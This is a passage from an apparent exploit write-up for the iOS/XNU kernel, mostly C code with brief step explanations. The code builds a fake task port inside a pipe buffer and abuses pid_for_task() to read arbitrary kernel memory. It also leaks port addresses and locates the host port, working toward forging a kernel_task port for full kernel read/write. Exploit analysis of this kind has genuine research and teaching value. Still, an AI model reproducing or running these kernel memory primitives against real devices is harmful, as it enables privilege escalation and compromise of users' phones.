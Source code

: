     		+ (sizeof(uint32_t) + sizeof(uint32_t) + sizeof(uint64_t));
    	uint64_t port_address = stage1_read64(msgh_local_port);
    	// Discard the message.
    	port_discard_messages(base_port);
    	return port_address;
    }

    /*
     * stage1_read32
     *
     * Description:
     * 	Read a 32-bit value from kernel memory using our fake port.
     *
     * 	This primitive requires that we know the address of the pipe buffer containing our port.
     */
    static uint32_t
    stage1_read32(uint64_t address) {
    	// Do a read to make the pipe available for a write.
    	read_pipe();
    	// Create our fake task. The task's proc's p_pid field overlaps with the address we want to
    	// read.
    	uint64_t fake_proc_address = address - OFFSET(proc, p_pid);
    	uint64_t fake_task_address = pipe_buffer_address + fake_task_offset;
    	uint8_t *fake_task = (uint8_t *) pipe_buffer + fake_task_offset;
    	FIELD(fake_task, task, ref_count, uint64_t) = 2;
    	FIELD(fake_task, task, bsd_info,  uint64_t) = fake_proc_address;
    	// Initialize the port as a fake task port pointing to our fake task.
    	uint8_t *fake_port_data = (uint8_t *) pipe_buffer + fake_port_offset;
    	FIELD(fake_port_data, ipc_port, ip_bits,    uint32_t) = io_makebits(1, IOT_PORT, IKOT_TASK);
    	FIELD(fake_port_data, ipc_port, ip_kobject, uint64_t) = fake_task_address;
    	// Write our buffer to kernel memory.
    	write_pipe();
    	// Now use pid_for_task() to read our value.
    	int pid = -1;
    	kern_return_t kr = pid_for_task(fake_port, &pid);
    	if (kr != KERN_SUCCESS) {
    		ERROR("%s returned %d: %s", "pid_for_task", kr, mach_error_string(kr));
    		ERROR("could not read kernel memory in stage %d using %s", 1, "pid_for_task");
    		fail();
    	}
    	return (uint32_t) pid;
    }
{% endhighlight %}
#### Step 22: Get the address of the Host port

We need to get the host port address first using which we can find the **ipc_space_kernel** in later steps. In order to achieve a full kernel read/write, we need to find kernel **vm_map** and the kernel **ipc_space**. Since the **ipc_space_kernel** can be identified using the host port's receiver field, it is essential to find the address of the host port.

{% highlight c %}
    // 22\. Our next goal is to build a fake kernel_task port that allows us to read and write
    	// kernel memory with mach_vm_read()/mach_vm_write(). But in order to do that, we'll first
    	// need to get ipc_space_kernel and kernel_map. We'll use Ian's technique from multi_path
    	// for this.
    	//
    	// First things first, get the address of the host port.
    	uint64_t host_port_address = stage1_find_port_address(host);
{% endhighlight %}
#### Step 23: Get ipc_space_kernel from the host port's ip_receiver
